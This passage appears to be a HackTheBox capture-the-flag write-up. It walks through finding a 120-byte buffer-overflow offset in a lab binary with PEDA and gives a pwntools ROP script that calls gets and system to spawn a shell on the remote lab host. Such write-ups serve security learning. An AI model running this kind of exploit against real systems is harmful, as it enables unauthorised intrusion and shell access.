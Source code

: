 Looks like someone has submitted the file to VirusTotal for a quick look.


{% include image.html image_alt="621e2876.png" image_src="/4ad507a3-53ed-486c-8b1a-691ce59ddc6b/621e2876.png" %}


On top of that, someone has also submitted to `ropshell.com` for ROP gadgets.


{% include image.html image_alt="ead45588.png" image_src="/4ad507a3-53ed-486c-8b1a-691ce59ddc6b/ead45588.png" %}


A quick `checksec` in PEDA shows that NX is enabled (non-executable stack).


{% include image.html image_alt="2c2d224a.png" image_src="/4ad507a3-53ed-486c-8b1a-691ce59ddc6b/2c2d224a.png" %}


If I have to guess, I would say this is a simple ROP exploit. Don't take my word for it. Look at the `main()` function of `myapp`.


{% include image.html image_alt="87b73f8e.png" image_src="/4ad507a3-53ed-486c-8b1a-691ce59ddc6b/87b73f8e.png" %}


### Exploit Development

Long story short, the offset to control the return address is 120 bytes. Here's how to do it.

1. Get PEDA if you have not already done so.
2. Generate a 200-byte pattern. `gdb-peda# pattern_create 200 buf`.
3. `set follow-fork-mode parent` because of `system()` forks.
4. Break at `*main+77`. This is the last instruction before RIP pops the return address.
5. `run` with the pattern or `r < buf`.
6. `continue` or `c` with the execution.

You should see something like this.


{% include image.html image_alt="88110186.png" image_src="/4ad507a3-53ed-486c-8b1a-691ce59ddc6b/88110186.png" %}


Use `pattern_offset` to determine the offset.


{% include image.html image_alt="a165b5d3.png" image_src="/4ad507a3-53ed-486c-8b1a-691ce59ddc6b/a165b5d3.png" %}


Armed with that knowledge, you can write a ROP exploit with `pwntools` like so.

<div class="filename"><span>exploit.py</span></div>

~~~~python
from pwn import *

context(terminal=["tmux", "new-windows"])
context(os="linux", arch="amd64")

myapp = ELF("./myapp")
p     = remote("10.10.10.147", 1337)

bss = myapp.bss()
junk = 'A' * 120

# Show me the shell
rop = ROP(myapp)
rop.gets(bss)
rop.system(bss)

payload = junk + str(rop) + "/bin/bash\n" + "bash\n"
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/199
[2]: https://www.hackthebox.eu/home/users/profile/91108
[3]: https://www.hackthebox.eu/